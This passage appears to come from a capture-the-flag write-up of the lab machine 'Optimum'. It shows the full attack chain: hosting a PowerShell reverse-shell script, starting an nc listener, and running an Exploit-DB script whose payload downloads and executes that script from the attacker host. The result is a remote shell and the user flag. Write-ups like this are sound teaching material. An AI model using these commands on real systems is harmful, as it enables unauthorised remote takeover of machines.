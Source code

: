 ```
$ ls -l

total 4
-rw-rw-r-- 1 kali kali 1796 May 10 08:58 reverse.ps1

```

Now we can host the reverse shell Powershell script on our Kali machine, and the command that Optimum will execute will download this script and execute it.

```
$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We also need to start up our listener on port `4444` for the reverse shell to connect back to:

```
$ nc -lvnp 4444

listening on [any] 4444 ...
```

Now we can construct our arguments to `49125.py` and run it:

```
$ python3 /usr/share/exploitdb/exploits/windows/webapps/49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3/reverse.ps1')"
```

We can see that Optimum is definitely fetching our reverse shell script:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [10/May/2025 09:01:51] "GET /reverse.ps1 HTTP/1.1" 200 -
```

And back over in the `nc` tab we have a connection:

```
$ nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.8] 49167
whoami
optimum\kostas
PS C:\Users\kostas\Desktop>
```

We can claim the user flag:

```
PS C:\Users\kostas\Desktop> dir


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         18/3/2017   2:11 ??     760320 hfs.exe
-ar--         16/5/2025   6:34 ??         34 user.txt


PS C:\Users\kostas\Desktop> cat user.txt
2bbf32c13b96d293637a1270ede5****
```
